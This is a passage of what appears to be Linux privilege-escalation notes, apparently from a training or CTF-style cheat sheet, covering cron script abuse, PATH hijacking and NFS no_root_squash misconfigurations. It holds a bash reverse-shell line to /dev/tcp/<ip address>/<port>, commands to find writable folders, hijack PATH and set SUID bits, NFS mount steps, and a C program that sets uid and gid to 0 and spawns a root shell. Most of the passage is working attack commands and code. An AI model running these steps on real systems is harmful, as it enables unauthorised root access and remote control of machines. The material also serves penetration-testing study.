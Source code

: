 Find a script location in the `/etc/crontab` file, modify the script to run a reverse shell and start a listener.

You can also use deleted scripts or scripts without a full path and put a reverse shell in the path.

Or you can understand the script and exploit the tools it uses using wildcards.

Example reverse shell script, you might need to use another 1:

```
#!/bin/bash

bash -i >& /dev/tcp/<ip address>/<port> 0>&1
```

## PATH

PATH is an environment variable which tells the system where to look for commands not built in to the shell or that not defined with a full path.

`echo $PATH` - echo the PATH.

If you have write permission to a folder in the path and application or script to abuse, you can use it to elevate privileges.

`chmod u+s <file>` - Set the SUID bit for a file that executes another.
`find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u` - Search for writable folders.
`find / -writable 2>/dev/null | grep <parent writable folder> | cut -d "/" -f 2,3 | sort -u` - Search for writable folders under a specific folder.
`export PATH=/tmp:$PATH` - Add the `/tmp` folder to the start of the path.

Now add `/bin/bash` to the binary that will run by the script with root privileges and add executable permissions, than run the script.

## NFS

Sometimes we will use shared folders and remote management interfaces such as SSH and Telnet rather than elevating the privileges of the current user.
Sometimes there will be a misconfigured network shell.

`cat /etc/exports` - Read the contents of the NFS (Network File Sharing file).

By default NFS will change the root user to nfsnobody which means no file can operate with root privileges, if the no_root_squash option is present on a writable share we can create and run an executable with the SUID bit set.

`showmount -e <ip address>` - Enumerate mountable shares from the attacking machine.
`mkdir <folder to mount to>` - Create a folder to mount to.
`mount -o rw <ip address>:/<no_root_squash share> <folder to mount to>` - Mount one of the no_root_squash shares.

Create .c executable that will run /bin/bash:

```
int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```
